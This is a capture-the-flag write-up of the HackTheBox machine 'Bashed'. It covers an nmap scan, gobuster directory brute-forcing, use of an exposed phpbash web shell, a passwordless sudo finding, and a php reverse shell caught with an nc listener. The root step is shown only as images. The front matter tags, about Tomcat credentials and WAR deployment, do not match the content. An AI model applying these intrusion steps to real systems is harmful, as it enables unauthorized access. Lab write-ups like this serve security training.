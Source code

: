 ```yaml
---
title: "HTB - Bashed"
classes: wide
tag:
- "Tomcat default credentials"
- "War deploy exploit"
- "Easy Box"
- "TJ_Null's OSCP Prep"
header:
  teaser: /assets/images/htb/htb.png
ribbon: lawngreen
description: "Writeup for HTB - Bashed"
categories:
  - HTB
---
```


The given box ```Bashed``` is a Linux machine 

- [HackTheBox- Bashed](#hackthebox---Bashed)
- [Recon](#recon)
	- [Nmap Scan](#nmap-scan)
- [Enumeration](#enumeration)
	- []
- [Shell](#Shell)
- [Shell as root](#Shell as root)

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/Bashed.png" >
</center>

## Recon

### Nmap Scan

`nmap` found one open port on TCP scan.

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/easy_bashed]
└╼[★]$ cat nmap/initial_scan.nmap
# Nmap 7.92 scan initiated Thu Sep 15 01:52:04 2022 as: nmap -Pn -sC -sV -oN nmap/initial_scan.nmap -v 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.25s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Sep 15 02:10:01 2022 -- 1 IP address (1 host up) scanned in 1077.51 seconds
```

## Enumeration

### Site

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/1.png" >
</center>

There is a hyperlink `phpbash` which takes to the github page. 

### Directory Bruteforcing

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~]
└╼[★]$ gobuster dir -u http://10.10.10.68/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/09/15 02:02:50 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/uploads              (Status: 301) [Size: 312] [--> http://10.10.10.68/uploads/]
/php                  (Status: 301) [Size: 308] [--> http://10.10.10.68/php/]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
```

from directory bruteforcing got 2 directories `php` and `dev` in that found some interesting files to execute the commands.

	dev/phpbash.min.php	
	dev/phpbash.php	
	php/sendMail.php	

### Exploring phpbash.php

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/2.png" >
</center>

`phpbash.php` file executes command from `www-data` user, but through enumeration got one more user `scriptmanager`

Once we are into `scriptmanager` user or if we execute anything from scriptmanager it gets execute without passwd.

```shell
www-data@bashed
:/var/www/html/dev# sudo -l

Matching Defaults entries for www-data on bashed:
env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
(scriptmanager : scriptmanager) NOPASSWD: ALL
```


## Shell as www-data

For persistence, upload a `php-reverse-shell` to the box to get shell back,

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/3.png" >
</center>

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/4.png" >
</center>

```shell
┌[us-vip-1]─[10.10.16.2][0xM3M0RY㉿kali]─[~/htb/easy_bashed]
└╼[★]$ rlwrap nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.10.68] 57004
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 09:13:35 up  1:36,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@bashed:/$ ls
ls
bin   etc         lib         media  proc  sbin     sys  var
boot  home        lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv      usr
www-data@bashed:/$ cd /home
cd /home
www-data@bashed:/home$ ls
```

## Shell as root

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/5.png" >
</center>

<center>
<img src="https://raw.githubusercontent.com/0xM3M0RY/htb_ctf/main/bashed/assets/images/6.png" >
</center>